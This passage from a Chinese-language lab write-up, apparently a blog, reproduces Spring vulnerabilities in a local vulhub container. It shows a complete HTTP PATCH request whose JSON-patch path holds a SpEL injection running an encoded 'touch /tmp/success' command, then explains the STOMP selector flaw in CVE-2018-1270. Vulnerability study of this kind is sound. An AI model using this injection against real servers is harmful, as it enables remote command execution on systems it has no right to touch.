 

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```


放包前查看容器内是否存在该文件：
`docker exec -it 3b2e846b1012 ls /tmp` ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e392b9fd80ab496cb13a387b9c0df79d.png)
放包返回400
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/5dc084bc4c4c466db04a722c453efcd0.png)
返回容器查看就被创建出来了
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ba10664eaf394d37ac6735fad38cdb98.png)


## Spring Messaging远程命令执行漏洞(CVE\-2018\-1270\)


* 漏洞原理
Websocket是html5提出的一个协议规范，是为解决客户端与服务端实时通信，在建立连接之后，双方可以在任意时刻，相互推送信息。
STOMP是websocket的子协议，主要规定传输内容。但是在该漏洞中你只需要知道SUBSCRIBE为订阅消息以及注册订阅的目的地，SEND为发送消息。通过这两个命令就足够理解漏洞原理了。
一般是建立连接为subscribe，send为连接后发送的消息。



> spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用StandardEvaluationContext解析，造成命令执行漏洞。


**提取大佬的总结**：


* 通过发送SUBSRIBE消息解析表达式并**保存到消息指定的目的地址下**
* 当发送SEND消息时会从目的地址下获取所有的存根，遍历存根并获取对应的表达式并调用getValue方法触发漏洞


说白了就是先订阅，这个动作就是建立好连接了，后面都必须要使用这个连接，然后通过这个连接去触发你在订阅的时候插入的恶意payload，但是这个触发是按照真实环境来看的，也就说你需要找到建立连接后哪个可以进行send动作的路由，这个路由是开发者在开发的时候定义的，所以你需要找到后才能进行发送。
如图所示：先connect 然后去send，就通过这种方式来攻击。
（ps:本人在抓包的时候尽力建立同一个连接来进行发送，但是就是无法通过抓包形式来建立好连接，所以真的就只能使用poc脚本来攻击了）
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/a6dea2fc08224c1da0e81f671ab61918.png)


